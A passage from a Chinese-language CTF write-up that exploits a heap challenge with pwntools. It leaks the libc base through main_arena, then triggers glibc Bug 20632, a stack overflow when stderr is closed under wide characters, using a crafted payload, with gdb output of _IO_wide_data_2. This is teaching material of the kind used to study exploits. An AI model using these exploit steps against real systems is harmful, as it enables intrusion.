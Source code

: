 ```
def wchar2char(wchar_data):
    convert = process(['./convert','1'])
    convert.send(wchar_data)
    char_data = convert.recvrepeat(0.3)
    convert.close()
    return char_data

def char2wchar(char_data):
    convert = process(['./convert','2'])
    convert.send(char_data)
    wchar_data = convert.recvrepeat(0.3).strip('n').strip('x00')
    convert.close()
    return wchar_data
```

那么我们直接先`leak libc`，泄露代码如下

```
create(sh,0x110,'Chunk__0'+'n')
create(sh,0x10,'Chunk__0'+'n')
delete(sh,0)
libc_address = u64(wchar2char(show(sh,0)).ljust(8,'x00')) - get_main_arena(libc) - 0x60
success('The libc address is ' + hex(libc_address))
```

#### <a class="reference-link" name="Stack%20Overflow"></a>Stack Overflow

这里利用的是在`Sourceware Bugzilla`报告的[`Bug 20632` ](https://www.sourceware.org/bugzilla/show_bug.cgi?id=20632)，正如漏洞文章中说明的，在宽字节环境下且`stderr`已被关闭时，可能发生漏洞。

我们来探测实际漏洞的触发：

```
create(sh,0x10,'Chunk__0'+'n')
create(sh,0x10,'Chunk__2'+'n')
create(sh,0x10,'Chunk__3'+'n')
create(sh,0x10,'Chunk__4'+'n')

payload = char2wchar(p32(0x12341234)) * 20
success('The libc address is ' + hex(libc.address))
get_gdb(sh,stop=True)
sh.sendlineafter(b"xe2x9dx93", payload)

sh.interactive()
```

首先当我们在`STDERR`被关闭时，首次执行`__fwprintf_chk(stderr, 1, '%lc', 0x12341234);`时，可以很清楚的看到，由于`STDERR`被关闭，导致`_IO_wide_data_2`的所有项基本均为空：

```
gef➤  p _IO_wide_data_2
$1 = {
  _IO_read_ptr = 0x0, 
  _IO_read_end = 0x0, 
  _IO_read_base = 0x0, 
  _IO_write_base = 0x0, 
  _IO_write_ptr = 0x0, 
  _IO_write_end = 0x0, 
  _IO_buf_base = 0x0, 
  _IO_buf_end = 0x0, 
  _IO_save_base = 0x0, 
  _IO_backup_base = 0x0, 
  _IO_save_end = 0x0, 
  _IO_state = {
    __count = 0x0, 
    __value = {
```